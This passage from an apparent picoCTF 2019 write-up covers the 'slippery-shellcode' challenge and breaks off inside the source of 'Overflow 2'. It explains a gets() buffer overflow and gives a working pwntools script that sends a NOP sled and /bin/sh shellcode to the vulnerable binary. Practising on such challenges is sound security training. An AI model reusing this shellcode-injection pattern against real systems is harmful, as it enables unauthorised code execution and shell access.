 ```c
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

Here we see that `main` calls `vuln` that uses `gets` with  `buf`, so we know we can overflow it. Then it jumps to a random address of the binary between the first 256 bytes of `buf`.

We can send 256 NOPs and then the shellcode, using the nops we know that the shellcode is going to be executed. 

```python
from pwn import *
from getpass import getpass

user = getpass("Username:")
passwd = getpass("Password:")
host = "2019shell1.picoctf.com"

s = ssh(user=user,password=passwd,host=host)
p = s.run("cd /problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015 && ./vuln")

payload = b"\x90" * 256
payload += asm(shellcraft.linux.sh())

p.recvuntil(":")
p.sendline(payload)
p.sendline(b"cat flag.txt")
p.interactive()
```

### Overflow 2

Source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
```